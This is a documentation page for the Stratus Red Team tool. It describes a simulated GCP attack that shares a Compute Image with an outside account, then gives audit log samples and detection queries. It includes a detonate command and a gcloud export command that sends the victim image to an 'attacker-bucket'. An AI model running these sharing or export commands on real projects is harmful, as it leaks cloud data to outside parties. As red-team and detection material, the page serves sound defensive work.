 ```yaml
---
title: Exfiltrate Compute Image by sharing it
---
```


# Exfiltrate Compute Image by sharing it

 <span class="smallcaps w3-badge w3-orange w3-round w3-text-sand" title="This attack technique might be slow to warm up or detonate">slow</span> 
 <span class="smallcaps w3-badge w3-blue w3-round w3-text-white" title="This attack technique can be detonated multiple times">idempotent</span> 

Platform: GCP

## Mappings

- MITRE ATT&CK
    - Exfiltration



## Description


Exfiltrates a Compute Image by sharing with a fictitious attacker account. The attacker could then create a snapshot of the image in their GCP project.

<span style="font-variant: small-caps;">Warm-up</span>:

- Create a Compute Image

<span style="font-variant: small-caps;">Detonation</span>:

- Set the IAM policy of the image so that the attacker account has permissions to read the image in their own project

!!! note

	Since the target e-mail must exist for this attack simulation to work, Stratus Red Team grants the role to stratusredteam@gmail.com by default.
	This is a real Google account, owned by Stratus Red Team maintainers and that is not used for any other purpose than this attack simulation. However, you can override
	this behavior by setting the environment variable <code>STRATUS_RED_TEAM_ATTACKER_EMAIL</code>, for instance:

	```bash
	export STRATUS_RED_TEAM_ATTACKER_EMAIL="your-own-gmail-account@gmail.com"
	stratus detonate gcp.exfiltration.share-compute-image
	```


## Instructions

```bash title="Detonate with Stratus Red Team"
stratus detonate gcp.exfiltration.share-compute-image
```
## Detection


You can detect when someone changes the IAM policy of a Compute Image, using the GCP Admin Activity audit logs event <code>v1.compute.images.setIamPolicy</code>. Here's a sample event, shortened for clarity:

```json hl_lines="18 20 25""
{
  "protoPayload": {
    "@type": "type.googleapis.com/google.cloud.audit.AuditLog",
    "authenticationInfo": {
      "principalEmail": "user-sharing-the-image@domain.tld",
      "principalSubject": "user:user-sharing-the-image@domain.tld"
    },
    "requestMetadata": {
      "callerIp": "34.33.32.31",
      "callerSuppliedUserAgent": "google-cloud-sdk gcloud/..."
    },
    "resourceName": "projects/victim-project/global/images/stratus-red-team-victim-image",
    "request": {
      "policy": {
        "version": "3",
        "bindings": [
          {
            "role": "roles/owner",
            "members": [
              "user:attacker@gmail.com"
            ]
          }
        ]
      },
      "@type": "type.googleapis.com/compute.images.setIamPolicy"
    }
  }
}
```

After the attacker has permissions on the Compute Image, they can export it in their own GCP Storage using:

```bash
	gcloud compute images export \
	--destination-uri gs://attacker-bucket/victim-image \
	--image stratus-red-team-victim-image
```

Based on this event, detection strategies may include:

- Alerting when the IAM policy of a Compute Image is changed, especially if such a sharing mechanism is not part of your normal operations. Sample GCP Logs Explorer query:

```sql
protoPayload.methodName="v1.compute.images.setIamPolicy"
```


